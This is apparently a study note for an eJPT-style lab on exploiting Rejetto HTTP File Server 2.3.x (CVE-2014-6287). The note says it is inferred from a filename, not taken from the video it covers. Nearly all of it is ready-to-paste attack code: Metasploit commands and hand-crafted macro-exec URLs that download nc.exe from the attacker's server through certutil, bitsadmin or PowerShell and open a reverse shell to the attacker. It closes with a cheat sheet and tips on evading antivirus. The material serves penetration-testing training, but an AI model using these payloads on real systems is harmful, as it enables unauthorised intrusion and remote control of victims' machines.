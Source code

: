 # 01 – Exploiting a Vulnerable HTTP File Server (Windows)

Note: The transcript is not provided. The following notes are based on the filename and common eJPT lab patterns for exploiting Rejetto HTTP File Server (HFS) 2.3/2.3b via CVE-2014-6287. Commands and steps are conservative and copy-paste ready.

## What the video covers (Introduction / big picture)
- Recon a Windows target, identify an HTTP File Server (HFS) service.
- Recognize the vulnerable Rejetto HFS 2.3/2.3b and confirm remote command execution (RCE).
- Two exploitation paths:
  - Metasploit: exploit/windows/http/rejetto_hfs_exec for instant shell.
  - Manual: Craft the HFS macro exec payload to run cmd.exe and pull a reverse shell using certutil/PowerShell.
- Get an initial shell, verify access, basic stabilization.

## Flow (ordered)
1. Discover open ports and services with Nmap.
2. Identify HFS on port 80 (banner/title shows HFS 2.3.x).
3. Verify vulnerability and locate exploit (searchsploit/metasploit).
4. Prepare listener and a simple HTTP server to host payload.
5. Option A: Use Metasploit rejetto_hfs_exec for Meterpreter/shell.
6. Option B: Manual RCE via crafted URL to:
   - Test RCE (whoami/ping).
   - Download nc.exe (or custom EXE) with certutil.
   - Execute reverse shell back to your listener.
7. Stabilize and perform quick post-exploitation checks.

## Tools highlighted
- nmap (service/version scan)
- web browser or curl (to interact with HFS)
- searchsploit (enumerate public exploits)
- msfconsole (Metasploit module: exploit/windows/http/rejetto_hfs_exec)
- python3 -m http.server (host payload)
- nc/rlwrap nc (listener)
- PowerShell, certutil (on target, to download/execute payload)
- Optional: msfvenom (generate a custom Windows reverse shell EXE)

## Typical command walkthrough (detailed, copy-paste friendly)

Set helper variables first (adjust IPs/ports):
```bash
# Attacker box (Kali/Parrot/etc.)
export TGT=10.10.10.10          # Target IP
export LHOST=10.10.14.5         # Your VPN/tun IP
export LPORT=4444               # Listener port
mkdir -p scans loot payloads
```

1) Recon and identification
```bash
# Full TCP scan + default scripts + versions
nmap -sC -sV -p- -oN scans/all_tcp.txt $TGT

# If port 80 shows HFS 2.3.x in http-title or header, confirm in the browser:
# http://$TGT/
```

2) Look up the exploit (informational)
```bash
searchsploit hfs rejetto
# Expect to see: "Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution"
```

3) Prepare infrastructure (listener + payload hosting)
```bash
# Start a reverse shell listener
rlwrap nc -lvnp $LPORT
# In a new terminal, host a payload directory
cd payloads
# Option A: use nc.exe shipped with Kali
cp /usr/share/windows-resources/binaries/nc.exe ./ 2>/dev/null || true
# Option B (if nc.exe not available), generate a custom reverse shell EXE:
# msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o rev.exe
python3 -m http.server 8000
```

4) Option A: Metasploit exploitation (quick win)
```bash
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS $TGT
set RPORT 80
set TARGETURI /
# Choose payload (x86 is broadly compatible)
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST $LHOST
set LPORT $LPORT
run
# If session opens, interact and proceed.
```

5) Option B: Manual exploitation (craft HFS macro exec)
- Test RCE (use -g to disable curl URL globbing and --path-as-is to keep braces intact):
```bash
# whoami via HFS macro exec
curl -s -g --path-as-is "http://$TGT:80/?search=%00{.exec|cmd.exe%20/c%20whoami}"

# ICMP test back to you (watch tcpdump in another terminal)
sudo tcpdump -ni any icmp &
curl -s -g --path-as-is "http://$TGT:80/?search=%00{.exec|cmd.exe%20/c%20ping%20-n%201%20$LHOST}"
```

- Download nc.exe to a writable path with certutil:
```bash
# Put nc.exe at C:\Users\Public\nc.exe (commonly writable)
curl -s -g --path-as-is "http://$TGT:80/?search=%00{.exec|cmd.exe%20/c%20certutil.exe%20-urlcache%20-split%20-f%20http://$LHOST:8000/nc.exe%20C:\Users\Public\nc.exe}"
```

- Execute reverse shell back to your listener:
```bash
curl -s -g --path-as-is "http://$TGT:80/?search=%00{.exec|cmd.exe%20/c%20C:\Users\Public\nc.exe%20-e%20cmd.exe%20$LHOST%20$LPORT}"
# Check your nc listener for a connection
```

Alternative manual payloads (if certutil blocked):
```bash
# Bitsadmin (older Windows; may still work)
curl -s -g --path-as-is "http://$TGT/?search=%00{.exec|cmd.exe%20/c%20bitsadmin%20/Transfer%20myJob%20/Download%20/priority%20normal%20http://$LHOST:8000/nc.exe%20C:\Users\Public\nc.exe}"

# PowerShell direct download (if PowerShell available)
# Downloads to temp and runs directly (no quotes needed when URL-encoded)
curl -s -g --path-as-is "http://$TGT/?search=%00{.exec|powershell.exe%20-NoP%20-W%20Hidden%20-c%20Invoke-WebRequest%20-UseBasicParsing%20-Uri%20http://$LHOST:8000/nc.exe%20-OutFile%20C:\Users\Public\nc.exe}"
```

6) Post-access quick checks and stabilization
```cmd
# In the reverse shell (cmd.exe on target):
whoami
hostname
ver
ipconfig /all
# Optional: switch to PowerShell for a nicer environment
powershell -nop
```

7) Cleanup (optional)
```bash
# From your reverse shell:
del C:\Users\Public\nc.exe
# Or rename/move if persistence desired (lab-dependent)
```

## Practical tips
- HFS fingerprint: Nmap http-title or visiting root typically shows “HFS 2.3” (Rejetto). The vulnerable versions are 2.3/2.3a/2.3b.
- Use curl -g or quote the URL to avoid brace expansion; add --path-as-is so curl doesn’t normalize the path.
- Always URL-encode spaces as %20 and special characters when crafting the search payload.
- Verify RCE with a low-noise command first (whoami, ping -n 1 LHOST, or an HTTP callback via Invoke-WebRequest).
- Choose egress-friendly ports (80/443/8080) if 4444 is blocked.
- Writable paths: C:\Users\Public\ or C:\Windows\Temp\ work on most systems.
- If AV/Defender blocks downloads, try a different filename/location, use PowerShell one-liners, or msfvenom for custom EXEs.
- If Metasploit payload fails, try a plain cmd reverse shell payload (windows/shell_reverse_tcp) or the manual certutil + nc approach.
- For better shell UX on Linux, use rlwrap with nc. On Windows, upgrade to PowerShell by typing powershell.

## Minimal cheat sheet (one-screen flow)
```bash
# Vars
export TGT=10.10.10.10; export LHOST=10.10.14.5; export LPORT=4444

# Recon
nmap -sC -sV -p- -oN nmap.txt $TGT

# Infra
rlwrap nc -lvnp $LPORT &
(cd payloads && cp /usr/share/windows-resources/binaries/nc.exe . 2>/dev/null || true; python3 -m http.server 8000) &

# RCE test
curl -s -g --path-as-is "http://$TGT/?search=%00{.exec|cmd.exe%20/c%20whoami}"

# Download nc.exe
curl -s -g --path-as-is "http://$TGT/?search=%00{.exec|cmd.exe%20/c%20certutil.exe%20-urlcache%20-split%20-f%20http://$LHOST:8000/nc.exe%20C:\Users\Public\nc.exe}"

# Reverse shell
curl -s -g --path-as-is "http://$TGT/?search=%00{.exec|cmd.exe%20/c%20C:\Users\Public\nc.exe%20-e%20cmd.exe%20$LHOST%20$LPORT}"
```

Metasploit quick:
```bash
msfconsole -q -x "use exploit/windows/http/rejetto_hfs_exec; set RHOSTS $TGT; set RPORT 80; set TARGETURI /; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST $LHOST; set LPORT $LPORT; run"
```

## Summary
- The video likely demonstrates exploiting Rejetto HTTP File Server (HFS) 2.3.x on Windows using CVE-2014-6287.
- Identify HFS via Nmap/http-title, then gain RCE either with Metasploit’s exploit/windows/http/rejetto_hfs_exec or a manual crafted URL that triggers HFS’s {.exec} macro.
- For a manual shell, use certutil to fetch nc.exe (or a msfvenom EXE) to C:\Users\Public\ and execute it to your nc listener.
- Keep payloads simple, URL-encode carefully, and use egress-friendly ports. Clean up artifacts after obtaining access.